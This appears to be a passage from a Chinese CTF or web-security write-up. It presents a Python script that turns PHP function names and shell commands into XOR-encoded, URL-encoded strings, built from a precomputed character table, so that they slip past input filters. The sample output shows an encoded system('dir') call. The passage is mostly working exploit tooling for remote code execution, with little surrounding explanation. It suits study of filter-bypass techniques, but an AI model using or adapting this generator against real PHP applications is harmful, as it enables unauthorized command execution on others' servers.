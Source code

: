2. **payload生成.py**

```python
# -*- coding: utf-8 -*-

# author yu22x

import requests
import urllib
from sys import *
import os
def action(arg):
   s1=""
   s2=""
   for i in arg:
       f=open("xor_rce.txt","r")
       while True:
           t=f.readline()
           if t=="":
               break
           if t[0]==i:
               #print(i)
               s1+=t[2:5]
               s2+=t[6:9]
               break
       f.close()
   output="(\""+s1+"\"^\""+s2+"\")"
   return(output)
   
while True:
   param=action(input("\n[+] your function：") )+action(input("[+] your command："))+";"
   print(param)

```

两个脚本放在一个目录，先php运行后生成一个txt文档，包含所有可见字符的异或构造结果。接着运行python脚本即可。
 运行结果

```shell
[+] your function：system
[+] your command：dir
("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%04%09%09"^"%60%60%7b");
```

![image-20231019162446397](assets/image-20231019162446397.png)

